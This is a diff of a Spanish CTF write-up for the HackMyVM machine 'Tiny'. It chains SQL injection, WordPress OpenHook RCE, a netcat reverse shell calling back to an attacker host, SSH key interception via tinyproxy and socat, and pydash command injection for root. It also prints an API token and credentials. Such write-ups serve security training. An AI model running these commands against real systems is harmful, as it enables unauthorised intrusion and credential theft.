

Writeup - Tiny

diff --git a/_posts/2023-12-06-tiny-writeup.md b/_posts/2023-12-06-tiny-writeup.md
@@ -2,7 +2,7 @@
 title: Tiny - HackMyVM Writeup
 date: 2023-12-06
 categories: [Writeups, HMV]
-tags: [Linux, Sql Injection, Information Leakage, Wordpress Enumeration, PrivEsc, Password Brute force]
+tags: [Linux, Sql Injection, Information Leakage, Wordpress Enumeration, Plugin OpenHook, PrivEsc]
 ---
 ![](/assets/img/Tiny/tiny.png)
 
@@ -15,7 +15,7 @@ dificultad Hard.
 
 Comenzamos el escaneo de puertos con `nmap`:
 ```bash
-nmap -p- --open -sS --min-rate 5000 -n -vvv -Pn 192.168.101.10 -oG allports
+nmap -p- --open -sS --min-rate 5000 -n -vvv -Pn 192.168.101.7 -oG allports
 ```
 
 #### Opciones Utilizadas en el `escaneo`:
@@ -26,7 +26,7 @@ nmap -p- --open -sS --min-rate 5000 -n -vvv -Pn 192.168.101.10 -oG allports
 - `-n`: No realizar una resolución DNS.
 - `-vvv`: Mostrar por pantalla información del escaneo.
 - `-Pn`: No realizar un (host discovery) de la ip de la máquina víctima
-- `192.168.101.10`: Ip de la maquina víctima
+- `192.168.101.7`: Ip de la maquina víctima
 - `-oG allports` : Guardar la salida del escaneo en formato Greppable en el archivo allports.
 
 ![](/assets/img/Tiny/escaneo.png)
@@ -42,13 +42,13 @@ tenerlos copiados en la clipboard.
 Procedemos a realizar un escaneo de versiones y lanzar algunos scripts de enumeracion.
 
 ```bash
-nmap -p22,80,8888 -sCV -vvv 192.168.101.10 -oN targeted
+nmap -p22,80,8888 -sCV -vvv 192.168.101.7 -oN targeted
 ```
 #### Opciones utilizadas en el `escaneo`:
 - `-p22,80,8888`: Especificamos los puertos a escanear.
 - `-sCV`: Lanzamos el escaneo de versiones con el parametro "V" y de scripts con el parametro "C":
 - `-vvv`: Mostrar por pantalla información del escaneo.
-- `192.168.101.10`: Ip de la máquina víctima.
+- `192.168.101.7`: Ip de la máquina víctima.
 - `-oN targeted`: Guardar la salida del escaneo en formato Nmap en el archivo targeted.
 
 ![](/assets/img/Tiny/versiones.png)
@@ -59,7 +59,7 @@ De los resultados obtenidos vamos a enumerar el puerto 80.
 
 Enumeramos las tecnologias de la web mediante `whatweb`.
 ```bash
-whatweb http://192.168.101.10
+whatweb http://192.168.101.7
 ```
 ![](/assets/img/Tiny/whatweb.png)
 
@@ -72,6 +72,7 @@ Nos reporta varios exploit, pero no para la versión especifica del WordPress qu
 Ahora nos dirigimos a la pagina web.
 
 ![](/assets/img/Tiny/pagina_web.png)
+### Virtual Hosting 
 
 Podemos ver la pagina típica de Wordpress, pero sin los estilos. Veamos el codigo fuente de la pagina con Ctrl + U.
 
@@ -83,3 +84,373 @@ Encontramos que la pagina esta cargando el contenido del dominio `tiny.hmv`. Ent
 
 
 Agregamos el dominio a nuestro /etc/hosts para que resuelva correctamente.
+
+![](/assets/img/Tiny/etc-hosts.png)
+
+![](/assets/img/Tiny/wordpress.png)
+## Fuzzing
+
+Fuzzeamos directorios usando nmap con el script `http-enum` al puerto 80.
+
+```bash
+nmap --script http-enum -p80 192.168.101.7 -oN webscan -vvv
+```
+![](/assets/img/Tiny/http-enum.png)
+
+En el robots.txt encontramos un subdominio wish.tiny.hmv. Lo añadimos al /etc/hosts
+
+![](/assets/img/Tiny/robots.txt.png) 
+
+![](/assets/img/Tiny/etc-hosts2.png)
+
+Al entrar al nuevo subdominio, vemos la siguiente página.
+
+![](/assets/img/Tiny/wish-tiny.png)
+## SQLI
+
+Verificamos si el panel de deseos es vulnerable a sqli usando `Sqlmap`.
+
+```bash
+sqlmap -r requests.req --batch
+```
+![](/assets/img/Tiny/sqlmap.png)
+### Bases de datos
+Al ser vulnerable vamos a  dumpear las bases de datos existentes.
+
+```bash
+sqlmap -r requests.req --batch --dbs
+```
+```bash
+available databases [2]:
+[*] information_schema
+[*] wish_db
+```
+### Tablas
+Veamos las tablas de la base de datos `wish_db`. 
+```bash
+sqlmap -r requests.req --batch -D wish_db --tables
+```
+
+```bash
+Database: wish_db
+[3 tables]
++--------------+
+| admin        |
+| utilisateurs |
+| wishs        |
++--------------+
+```
+### Columnas
+Ahora vamos por las columnas de la tabla `admin`.
+```bash
+sqlmap -r requests.req --batch -D wish_db -T admin --columns
+```
+
+```bash
+Database: wish_db
+Table: admin
+[3 columns]
++----------+--------------+
+| Column   | Type         |
++----------+--------------+
+| id       | int(11)      |
+| password | varchar(255) |
+| username | varchar(50)  !
++----------+--------------+
+```
+### Registros
+Dumpeamos todos los registros.
+```bash
+sqlmap -r requests.req --batch -D wish_db -T admin -C id,password,username --dump
+```
+
+```bash
+Database: wish_db                                                                                                                   
+Table: admin
+[1 entry]
++----+--------------------------------------------+----------+
+| id | password                                   | username |
++----+--------------------------------------------+----------+
+| 1  | 8df4387dd1598d4dcf237f9443028cec (fuckit!) | umeko    |
++----+--------------------------------------------+----------+
+```
+Vemos al usuario `umeko` y su contraseña `fuckit!`. Si recordamos anteriormente encontramos un wordpress, podemos probar las 
+credenciales en el panel de administrador para ver si logramos obtener acceso.
+
+![](/assets/img/Tiny/acceso-wordpress.png)
+
+Para suerte nuestra las credenciales eran correctas.
+
+![](/assets/img/Tiny/panel-wordpress.png)
+## Shell - www-data
+Estando dentro del WordPress nos hace falta enumerarlo, la enumeración la podemos realizar [con wp-scan](https://github.com/wpscanteam/wpscan).
+
+```bash
+wpscan --url http://tiny.hmv --enumerate vp,u --plugins-detection aggressive --api-token=i47sygIFHTNJB1xxW5q5rlZ1nubW3RaqodgnT3ohwa8
+```
+#### Opciones utilizadas:
+- `--url http://tiny.hmv`: Especificar el objetivo.
+- `--enumerate vp,u`: Enumerar plugins(vp) y usuarios(u).
+- `--plugins-detection aggressive`: Para que la enumeración de plugins sea agresiva.
+- `--api-token=i47sygIFHTNJB1xxW5q5rlZ1nubW3RaqodgnT3ohwa8` : Usar la api token de wpscan para poder enumerar la mayor cantidad de plugins vulnerables.
+Para obtener el api token directamente en la pagina de [wp-scan](https://wpscan.com/), logueandose se  proporciona.
+
+```
+Title: OpenHook < 4.3.1  Subscriber+ Remote Code Execution
+    Fixed in: 4.3.1
+    References:
+     - https://wpscan.com/vulnerability/5bd9fbd2-26ea-404a-aba7-f0c457a082b6
+     - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-5201
+     - https://www.wordfence.com/threat-intel/vulnerabilities/id/37b9ed0e-5af2-47c1-b2da-8d103e4c31bf
+
+```
+
+Encontramos un plugin vulnerable el cual permite la ejecución remota de comandos.
+
+[OpenHook](https://github.com/advisories/GHSA-52wg-h24c-3wgr). En este link nos dicen que la vulnerabilidad se da porque mediante shorcuts 
+especificamente el shortcode [php], el atacante puede ejecutar comandos como un usuario privilegiado. Esto mediante la inyeccion del shortcode dentro de una 
+publicacion del WordPress.
+
+Lo primero que tenemos que hacer es crear una nueva publicación en el WordPress. Posts -> Add New Post
+
+![](/assets/img/Tiny/post.png) 
+
+En el simbolo del mas , debemos buscar `Shortcode` y seleccionarlo.
+
+![](/assets/img/Tiny/shortcode.png)
+
+Dentro del ShortCode ponemos lo siguiente para verificar si hay ejecución remota de comandos.
+![](/assets/img/Tiny/publish.png)
+
+Antes de publicar modificamos para que el autor sea admin.
+
+![](/assets/img/Tiny/autor-admin.png)
+
+Una vez publicado nos vamos al post y verificamos que tenemos ejecución remota de comandos.
+
+![](/assets/img/Tiny/rce.png)
+
+Nos establamos una reverse shell mediante un oneliner de netcat [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
+
+```bash
+nc -e /bin/sh 192.168.101.10 443
+```
+Nos ponemos a la escucha con netcat por un puerto y obtenemos la shell.
+
+```bash
+nc -nlvp 443
+listening on [any] 443 ...
+connect to [192.168.101.10] from (UNKNOWN) [192.168.101.12] 37098
+```
+Ahora tenemos que hacer el tratamiento de la TTY para poder tener una 100% interactiva.
+
+```bash
+nc -nlvp 443
+listening on [any] 443 ...
+connect to [192.168.101.10] from (UNKNOWN) [192.168.101.12] 37098
+script /dev/null -c bash
+Script started, output log file is '/dev/null'.
+www-data@tiny:/var/www/html$ ^Z
+[1]  + 63852 suspended  nc -nlvp 443
+
+stty raw -echo; fg
+[1]  + 63852 continued  nc -nlvp 443
+                                    reset xterm [ENTER]
+
+
+www-data@tiny:/var/www/html$ export TERM=xterm
+www-data@tiny:/var/www/html$ export SHELL=bash
+www-data@tiny:/var/www/html$ stty rows 36 columns 133
+www-data@tiny:/var/www/html$         
+```
+Estando dentro de la maquina vamos a verificar con la herramienta [pspy64](https://github.com/DominicBreuker/pspy) para poder identificar tareas cron que se esten ejecutando
+en el sistema.
+
+Transferimos el compilado de pspy a la maquina mediante un servidor de python3.
+```bash
+python3 -m http.server 80
+Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
+192.168.101.12 - - [19/Dec/2023 20:07:19] "GET /pspy64 HTTP/1.1" 200 -
+
+
+www-data@tiny:/tmp$ wget http://192.168.101.10/pspy64
+--2023-12-20 02:07:23--  http://192.168.101.10/pspy64
+Connecting to 192.168.101.10:80... connected.
+HTTP request sent, awaiting response... 200 OK
+Length: 3104768 (3.0M) [application/octet-stream]
+Saving to: 'pspy64'
+
+pspy64                            100%[==========================================================>]   2.96M  --.-KB/s    in 0.02s   
+
+2023-12-20 02:07:23 (152 MB/s) - 'pspy64' saved [3104768/3104768]
+
+www-data@tiny:/tmp$ 
+```
+## Shell - vic
+La damos permisos de ejecución y lo ejecutamos.
+
+```bash
+www-data@tiny:/tmp$ chmod +x pspy64
+```
+Al cabo de un momento vemos la siguiente tarea, donde el usuario con UID 104 esta ejecutando tinyproxy.
+```bash
+CMD: UID=104   PID=503    | /usr/bin/tinyproxy -d
+```
+
+Veamos los archivos de configuracion del tinyproxy y encontramos que el puerto 1111 esta abierto en el localhost.
+localhost:1111" especifica el destino al que se dirige el tráfico. "localhost" es una referencia al propio dispositivo en el que se está ejecutando el comando y "1111" es un número de puerto específico al que se está apuntando. 
+```bash
+www-data@tiny:/tmp$ cat /etc/tinyproxy/tinyproxy.conf  | grep -v "#"
+User tinyproxy
+Group tinyproxy
+Port 8888
+Timeout 600
+DefaultErrorFile "/usr/share/tinyproxy/default.html"
+StatFile "/usr/share/tinyproxy/stats.html"
+LogFile "/var/log/tinyproxy/tinyproxy.log"
+LogLevel Info
+PidFile "/run/tinyproxy/tinyproxy.pid"
+Upstream http localhost:1111
+```
+
+Si el trafico se esta redirigiendo al puerto 1111, pongamos en escucha con nc para ver que nos llega.
+De la respuesta que obtenemos vemos que hay un 'GET http://127.0.0.1:8000/id_rsa'
+
+```bash
+www-data@tiny:/tmp$ nc -lvnp 1111
+listening on [any] 1111 ...
+connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 34952
+GET http://127.0.0.1:8000/id_rsa HTTP/1.1
+Host: 127.0.0.1:8000
+Connection: close
+Via: 1.1 tinyproxy (tinyproxy/1.11.1)
+Authorization: Basic cm9vdDpRMlg0OXQ0V2pz
+User-Agent: curl/7.88.1
+Accept: */*
+```
+
+Lo que vamos hacer es crear una redireccion del puerto 1111 al 8000 mediante socat
+
+```bash
+www-data@tiny:/tmp$ socat -v tcp-listen:1111,reuseaddr tcp:localhost:8000
+-----BEGIN OPENSSH PRIVATE KEY-----
[35 lines of base64/hex data omitted]
+67apP6Gxw32v0AAAAMdmljQHRpbnkuaG12AQIDBAUGBw==
+-----END OPENSSH PRIVATE KEY-----
+
+```
+
+Obtenemos la cable privada del usuario `vic` para conectarnos mediante ssh. 
+```bash
+nano id_rsa
+chmod 600 id_rsa
+```
+```bash
+ssh -i id_rsa vic@192.168.101.12
+Linux tiny.hmv 6.1.0-10-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.37-1 (2023-07-03) x86_64
+
+The programs included with the Debian GNU/Linux system are free software;
+the exact distribution terms for each program are described in the
+individual files in /usr/share/doc/*/copyright.
+
+Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
+permitted by applicable law.
+╭─vic@tiny ~                                                                                                                        
+╰─$ 
+```
+## Shell - Root
+Verificando los privilegios SUID del usuario vic, vemos lo siguiente.
+
+```bash
+sudo -l
+Matching Defaults entries for vic on tiny:
+    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty
+
+User vic may run the following commands on tiny:
+    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/car.py*
+```
+Verificamos que es lo que  contiene  el archivo car.py. Vemos la libreria pydash la cual si buscamos tiene una vulnerabilidad 
+que permite inyectar comandos[pydash](https://security.snyk.io/vuln/SNYK-PYTHON-PYDASH-5916518).
+
+```bash
+import sys
+import random
+import pydash
+
+
+class Car:
+    def __init__(self, model, year):
+        self.model = model
+        self.year = year
+        self.id = random.randint(1, 99999)
+
+    def get_info(self, info_type):
+        if info_type == "model":
+            return self.model
+        elif info_type == "year":
+            return self.year
+        elif info_type == "id":
+            return self.id
+
+
+def poc(path, arg):
+    obj = Car('Sedan', 2011)
+    res = pydash.objects.invoke(obj, path, arg)
+    print(res)
+
+
+if __name__ == '__main__':
+    if len(sys.argv) < 3:
+        print('Missing args: %s <path> <arg>' % sys.argv[0])
+        sys.exit(1)
+    poc(sys.argv[1], sys.argv[2])
+```
+
+La vulnerabilidad dice lo siguiente. El método pydash.objects.invoke() es vulnerable a la inyección de comandos cuando se cumplen los siguientes requisitos previos:
+
+El objeto fuente (argumento 1) no es un objeto integrado como list/dict (de lo contrario, no se puede acceder a la ruta __init__.__globals__)
+
+El atacante tiene control sobre el argumento 2 (la cadena de ruta) y el argumento 3 (el argumento que se pasará al método invocado).
+
+Corremos el archivo car.py de la siguiente manera para poder obtener una shell como el usuario root.
+
+```bash
+sudo /usr/bin/python3 /opt/car.py* __init__.__globals__.random._os.system "bash -p"
+root@tiny:/opt#
+```
+
+Y listo ya estaria la maquina!. Gracias por leer.
